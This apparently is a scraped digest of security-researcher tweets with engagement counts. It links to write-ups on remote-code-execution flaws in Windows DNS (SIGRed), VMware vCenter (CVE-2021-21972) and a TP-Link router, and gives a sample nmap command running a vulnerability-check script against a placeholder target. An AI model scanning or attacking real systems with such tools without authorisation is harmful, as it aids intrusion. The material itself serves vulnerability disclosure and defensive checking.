* https://www.graplsecurity.com/post/anatomy-of-an-exploit-rce-with-cve-2020-1350-sigred

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>279</code></td>
<td>Favorites: <code>711</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1366653374288961538 _at 2021-03-02, 07:35:30_**
<blockquote>
CVE-2021-21972 vCenter Server RCE - Nmap script to check vulnerability

Ex)
nmap -p443 --script cve-2021-21972.nse --script-args vulns.showall [Target IP]

https://t.co/1jabqgbyTk https://t.co/qKsrD3tsu1
</blockquote>

* https://github.com/GuayoyoLabs/CVE-2021-21972

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>282</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1366455599412613120 _at 2021-03-01, 18:29:37_**
<blockquote>
#Pwn2Own Tokyo 2020. This blogpost explains the details of our CVE-2021-27246, a remote code execution on TP-Link AC1750 Smart Wifi Router.

Exploit, wait, and get root! 

https://t.co/KmzsSmT6Fv https://t.co/NiJfaw7quS
</blockquote>

* https://www.synacktiv.com/en/publications/pwn2own-tokyo-2020-defeating-the-tp-link-ac1750.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>156</code></td>
</tr></table>

---

